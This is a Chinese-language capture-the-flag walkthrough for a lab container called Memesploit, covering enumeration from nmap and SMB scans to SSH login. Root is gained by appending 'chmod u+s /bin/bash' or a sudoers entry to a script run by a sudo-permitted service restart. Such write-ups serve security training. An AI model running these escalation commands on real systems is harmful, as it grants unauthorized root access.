








## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Memesploit  
❯ nmap 172.17.0.2 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 19:06 CST
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

## SMB

```
[root@kali] /home/kali/Memesploit  
❯ smbclient -L //172.17.0.2/                                                                                                                             ⏎
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        --------- ---- -------
        print$          Disk      Printer Drivers
        share_memehydra Disk      
        IPC$            IPC       IPC Service (c9584cd8853e server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

存在一个**share\_memehydra**的目录，但是必须要密码才能登录。

进入网页可以看到有部分单词被黑化了，尝试用它作为密码



```
[root@kali] /home/kali/Memesploit  
❯ enum4linux -a 172.17.0.2 
```



尝试使用**memehydra**作为用户名登录成功



解压的时候需要密码，刚好网页里的另一个隐藏单词就是密码。

```
[root@kali] /home/kali/Memesploit  
❯ unzip secret.zip -d secret
Archive:  secret.zip
[secret.zip] secret.txt password: 
  inflating: secret/secret.txt       

[root@kali] /home/kali/Memesploit  
❯ cd secret 

[root@kali] /home/kali/Memesploit/secret  
❯ ls
secret.txt

[root@kali] /home/kali/Memesploit/secret  
❯ cat secret.txt                                             
memesploit:metasploitelmejor
```

**ssh**登录拿到**user.txt**



## ROOT

查看特殊权限命令，发现一个**service**

```
memesploit@c9584cd8853e:~$ sudo -l
Matching Defaults entries for memesploit on c9584cd8853e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User memesploit may run the following commands on c9584cd8853e:
    (ALL : ALL) NOPASSWD: /usr/sbin/service login_monitor restart
```

找到**login\_monitor**的位置



将其中一个脚本进行重写，这样重启的时候会被执行

这里有一个坑，仔细看脚本的内容，需要修改的是**actionban.sh**

```
memesploit@577e1f3f89de:/etc/login_monitor$ cat actionban.sh 
#!/bin/bash

# Ruta del archivo que simula el registro de bloqueos
BLOCK_LOG="/tmp/block_log.txt"

# Función para generar una IP aleatoria
generate_random_ip() {
    echo "$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1)).$((RANDOM % 255 + 1))"
}

# Generar una IP aleatoria
IP_TO_BLOCK=$(generate_random_ip)

# Mensaje de simulación
MESSAGE="Simulación de bloqueo de IP: $IP_TO_BLOCK"

# Mostrar el mensaje en la terminal
echo "$MESSAGE"

# Registrar el intento de bloqueo en el archivo
echo "$(date): $MESSAGE" >> "$BLOCK_LOG"

echo "El registro ha sido creado en $BLOCK_LOG con la IP $IP_TO_BLOCK"
```

因为这里的**/tmp/block\_log.txt**是真实存在的，也就是说这个脚本是被执行的



```
memesploit@577e1f3f89de:/etc/login_monitor$ cp actionban.sh actionban2.sh 
memesploit@577e1f3f89de:/etc/login_monitor$ rm actionban.sh 
rm: remove write-protected regular file 'actionban.sh'? y   
memesploit@577e1f3f89de:/etc/login_monitor$ echo "chmod u+s /bin/bash" >> actionban2.sh 
memesploit@577e1f3f89de:/etc/login_monitor$ mv actionban2.sh actionban.sh 
memesploit@577e1f3f89de:/etc/login_monitor$ sudo  /usr/sbin/service login_monitor restart
```



**chmod u+s /bin/bash**的功能：当用户执行 `/bin/bash` 时，它会以文件拥有者的身份（通常是 **root** 用户）执行，而不是以当前用户的身份执行。这意味着，如果普通用户执行 `/bin/bash`，会获得 **root** 权限，直到退出 `bash`。

另一个解法是将**memesploit**写入超级用户组，然后使用**sudo -i**提升权限。可以参考[HTB-Sea - HYH](https://www.hyhforever.top/hackthebox-sea/)

```
echo 'echo "memesploit ALL=(ALL:ALL) ALL" >> /etc/sudoers.d/memesploit' >> actionban.sh 
```



## Summary

`User`：**SMB**文件泄露，通过网页中的信息进行登录下载，然后解密压缩包。

`Root`：查找到**/usr/sbin/service login\_monitor restart**相关的脚本，这里一定要找对，不然没有效果。可以修改**/bin/bash**的执行方式，也可以将**memesploit**写入超级用户组，当然还有其他解法，这里就不赘述了。
